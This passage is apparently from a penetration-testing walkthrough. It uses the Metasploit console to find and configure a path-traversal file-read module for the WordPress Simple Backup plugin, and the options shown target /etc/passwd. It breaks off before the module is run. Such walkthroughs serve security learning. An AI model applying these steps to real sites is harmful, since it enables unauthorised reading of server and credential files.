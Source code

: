 

These didn't lead to anything, so I fire up the metasploit console and search directly for the plugin shown on the webpage

``` bash

msf6 > search exploit Simple backup plugin
```

Output:


```

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read  .                normal  No     WordPress Simple Backup File Read Vulnerability

```


# Step 3

Configure exploit

See what needs to be set 
``` bash
msf6 auxiliary(scanner/http/wp_simple_backup_file_read) > show options
```

Output:

```
Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.htm
                                         l
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host


View the full module info with the info, or info -d command.

```

